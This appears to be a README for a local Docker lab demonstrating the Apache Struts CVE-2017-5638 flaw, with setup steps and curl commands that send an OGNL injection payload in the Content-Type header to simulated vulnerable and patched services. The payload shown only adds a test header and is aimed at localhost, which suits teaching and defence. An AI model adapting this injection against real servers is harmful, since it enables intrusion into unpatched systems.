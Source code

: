 CVE-2017-5638 demo


Prerequisites:
Docker and Docker Compose installed.
PowerShell (Windows) or bash (macOS/Linux).
Recommended: run inside an isolated VM and create a VM snapshot before the demo.

Start up Instructions:
Start services:
docker compose up -d

Confirm services:
docker ps
Expect entries for echo-vuln (0.0.0.0:5001->5000), echo-patched (0.0.0.0:5002->5000), webgoat (0.0.0.0:8080->8080)

Follow logs (in separate terminals)
docker logs -f echo-vuln
docker logs -f echo-patched

Safe demo commands (ONLY against local services)

PowerShell (use curl.exe to avoid alias issues):
curl.exe -v -X POST "http://localhost:5001
" `
-H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','pwned')}.multipart/form-data"

curl.exe -v -X POST "http://localhost:5002
" `
-H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','pwned')}.multipart/form-data"

Expected outputs:

echo-vuln (port 5001) returns:
{"message":"Simulated vulnerable echo",
"received_header":"%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test','pwned')}.multipart/form-data"}

echo-patched (port 5002) in reject mode returns:
HTTP/1.1 403 Forbidden
{"error":"Rejected suspicious payload (simulated patch)",
"reason":"suspicious token in header Content-Type"}


Stop & remove containers:
docker compose down
docker compose down --rmi local --volumes
